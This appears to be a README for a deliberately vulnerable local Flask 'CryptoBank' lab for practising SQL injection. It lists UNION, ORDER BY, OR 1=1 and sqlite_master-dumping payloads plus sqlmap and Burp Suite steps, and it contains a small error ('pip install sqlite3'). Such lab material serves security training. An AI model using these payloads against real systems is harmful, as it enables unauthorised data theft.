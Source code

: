 # CryptoBank-SQL-Injection-Lab
 Flask-based CryptoBank SQL Injection Lab to practice error-based SQLi and UNION SQLi.


📦 Prerequisites:
Python (preferably 3.6 or higher)

Visual Studio Code (VSCode) (with Python support)

Flask (Python web framework)

SQLite (for the database)



🏗️ Step 1: Install Python & Required Modules
If you don't have Python installed yet, download Python here and make sure to add Python to your PATH during installation.

Install Python

Install Flask:

Open VSCode or your terminal.

Install Flask and SQLite3 dependencies using pip:

command for terminal:

pip install flask sqlite3



🧑‍💻 Step 2: Set Up the Project

Open VSCode.

Create a new folder for your project, e.g., sqli_lab.

Inside the folder, create a file named cryptobank_sqli_lab.py.

Paste the Flask app code from the previous responses into this file.

💾 Save Your Project
Your directory should look like this:


sqli_lab/
│
└── cryptobank_sqli_lab.py
🚀 Step 3: Run the Lab in VSCode Terminal:

python cryptobank_sqli_lab.py



You should see output like this in the terminal:

* Running on http://127.0.0.1:5000
🌐 Step 4: Open the Lab in Your Browser




Open your web browser.

Go to:

http://127.0.0.1:5000/




You should see the CryptoBank Data Lookup page with a black background.




🧑‍💻 Step 5: Testing for SQL Injection
On the CryptoBank page, you’ll see a search bar labeled "Client name".

Enter an SQL Injection payload into the search bar (like ' UNION SELECT 1, name, balance, wallet FROM clients--).


The output should display the data from the clients table:


ID: 1, Name: Alice, Balance: 3.2 BTC, Wallet: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa

ID: 2, Name: Bob, Balance: 5.5 BTC, Wallet: 3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy

ID: 3, Name: Eve, Balance: 0.01 BTC, Wallet: bc1qw508d6qejxtdg4y5r3zarvary0c5xw7k6j28z





⚙️ Step 6: Hacking the Lab
Now you're ready to start testing for vulnerabilities and executing SQL injection payloads. Here's what you can try:

Example SQLi payloads:

Simple UNION SELECT (to get the data from the clients table):

' UNION SELECT 1, name, balance, wallet FROM clients--

Find number of columns (if you're unsure):

pgsql
Kopieren
Bearbeiten
' ORDER BY 1--        ✅
' ORDER BY 2--        ✅
' ORDER BY 3--        ✅
' ORDER BY 4--        ❌ (error!)
Blind SQLi or Advanced Payloads:

' OR 1=1--

' UNION SELECT 1, sql, 3 FROM sqlite_master-- (to dump table names)

📖 Step 7: Automate with Burp Suite or SQLmap
If you want to automate testing, you can use tools like Burp Suite or SQLmap.

Using Burp Suite:
Set up Burp Suite and configure it to proxy your browser traffic.

Intercept the request to /search?name=<input> and modify the parameter to inject SQLi payloads.

Test different payloads to see how the application reacts (e.g., error messages or data dumps).

Using SQLmap:
Install SQLmap on your machine:


git clone https://github.com/sqlmapproject/sqlmap.git

cd sqlmap

Run the following to test SQL injection:


python sqlmap.py -u "http://127.0.0.1:5000/search?name=' OR 1=1--" --batch

SQLmap will try to automate detection and exploitation of SQLi vulnerabilities.

📝 Additional Notes:
Security Best Practices: This is a vulnerable app for educational purposes. In a real-world application, always sanitize user inputs (use prepared statements, parameterized 

queries, or ORM libraries).

Next Steps: You can add more features (e.g., transaction history, admin panel) to expand the vulnerability testing.
